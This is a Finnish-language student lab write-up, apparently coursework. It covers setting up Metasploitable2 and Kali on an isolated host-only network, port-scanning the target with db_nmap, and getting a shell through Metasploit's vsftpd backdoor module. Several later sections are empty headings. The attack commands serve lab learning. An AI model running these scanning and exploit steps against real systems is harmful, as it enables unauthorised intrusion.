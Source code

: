 # A Metasploitable asennus ja oma verkko
Asennetaan Metasploitable2 virtuaalikone ja eristetään se omaan verkkoonsa Kalin kanssa
Virtualboxissa avataan Host Network Manager ja luodaan toinen ethernet adapteri.

![image](https://user-images.githubusercontent.com/71498717/199259815-7c68bb02-58f4-4a86-912d-2ddb964e1ca2.png)

Sen jälkeen molempien virtuaalikoneiden asetuksista lisätään Host-only Adapter, jolloin molemmat koneet on samassa verkossa ja ne eivät ole yhteydessä ulkomaailmaan.

![image](https://user-images.githubusercontent.com/71498717/199260874-2716b749-a04e-4ac9-9162-13284d644983.png)

Pitää myös muistaa irroittaa kaapeli Kalista, ettei vahingossakaan käy hassusti

![image](https://user-images.githubusercontent.com/71498717/199261519-58c753c5-d7bc-4786-8f52-77e233795428.png)


# B Porttiskannaus

Etsitään ensin metasploitable koneen ip-osoite.
```ifconfig```

![image](https://user-images.githubusercontent.com/71498717/199263409-19ea2c66-b23e-43a3-9f12-b38f43777583.png)

Sieltä löytyi ip mitä tutkitaan tarkemmin.

Avataan metasploit

```sudo msfdb run```

ja tarkistetaan tietokannan status

```db_status```

![image](https://user-images.githubusercontent.com/71498717/199265624-f43c469a-a72e-44b0-83a5-cf4c5688d683.png)

Luodaan metasploitable työtila
```workspace -a metasploitable```

Tehdään nmap tiedettyyn ip-osoitteeseen

```db_nmap -p- -A 192.168.252.3 -oA ports```

```-p-``` Tällä käydään kaikki avoimet portit läpi. ```-A``` vivulla saadaan käyttöjärjestelmä ja version tunnistus. ```-oA ports``` Tällä tallennetan saatu tulos "ports" tiedostoon.

Avoimia portteja oli runsaasti ja silmään pisti tunnillakäydyn perusteella portti 21 ja ftp service sekä portin 1524 bindshell

![image](https://user-images.githubusercontent.com/71498717/199274157-33822ca8-fe1d-4900-b0fb-0a4592b27edf.png)


 
# C Murtaudu Metasploitableen
Aloitetaan murtautuminen tutkimalla löytyykö metasploitista valmiiksi joku scripti.
``` search vsftpd```

![image](https://user-images.githubusercontent.com/71498717/199290877-c58b785f-2d03-46ac-9f7c-143a1f366f02.png)

Sieltä löytyi käutettävä moduuli jota käytetään komennolla  ```use 0```
asetetaan maali ip moduulille ```setg rhosts 192.168.252.3```

![image](https://user-images.githubusercontent.com/71498717/199291767-0a81fae9-8418-4d2c-bb89-8df95514531c.png)

ajetaan moduuli ```run``` komennolla ja ```ls``` komennolla varmistetaan, että ollaan sisällä

![image](https://user-images.githubusercontent.com/71498717/199292992-553f2e1f-74ef-4d5f-8c4f-a8bfd6fdff5d.png)

 
# D  Murtaudu Metasploitableen jollain toisella tavalla (eri kuin edellisessä kohdassa)
# E Vulnhub. Asenna jokin kone VulnHubista ja tunkeudu siihen. Kannattaa valita helppo.
# H
# I
# J
